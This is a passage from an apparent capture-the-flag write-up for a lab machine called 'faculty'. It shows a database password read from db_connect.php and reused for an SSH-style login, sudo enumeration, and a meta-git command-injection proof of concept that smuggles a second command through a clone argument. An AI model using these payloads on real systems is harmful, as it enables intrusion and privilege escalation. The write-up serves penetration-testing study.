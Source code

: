 ```php
foreach($user->fetch_array() as $k =>$v){
	$meta[$k] = $v;
}
}
?>
```

Download `db_connect.php` and bingo, we got a password! 
```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

Try to login with found password against user `gbyolo` and/or `developer`:
```bash
gbyolo@faculty:~$ id && cat user.txt
uid=1000(gbyolo) gid=1000(gbyolo) groups=1000(gbyolo)
cat: user.txt: No such file or directory
```

We don't have ``user.txt`` right yet, but we can confirm that `gbyolo:Co.met06aci.dly53ro.per` is correct and we have a foothold on the victim.


### Step 4
Pivot! Start with usual `sudo -l`
```bash
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

We're able to run `/usr/local/bin/meta-git` as user `developer`, seems fitting and what we should use to pivot.
Reading about `meta-git` there is a `RCE` due to [lack of input formating](https://hackerone.com/reports/728040). 

Lets try a simple PoC and create a file named `test`:
```
gbyolo@faculty:/dev/shm$ ls -al
total 0
drwxrwxrwt  3 root root   60 Aug 26 10:41 .
drwxr-xr-x 18 root root 3940 Aug 26 08:00 ..
drwx------  4 root root   80 Aug 26 08:00 multipath

gbyolo@faculty:/dev/shm$ sudo -u developer /usr/local/bin/meta-git clone 'exploit.se||touch test'
meta git cloning into 'exploit.se||touch test' at exploit.se||touch test

exploit.se||touch test:
fatal: repository 'exploit.se' does not exist
exploit.se||touch test ✓
(node:8010) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/exploit.se||touch test'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
```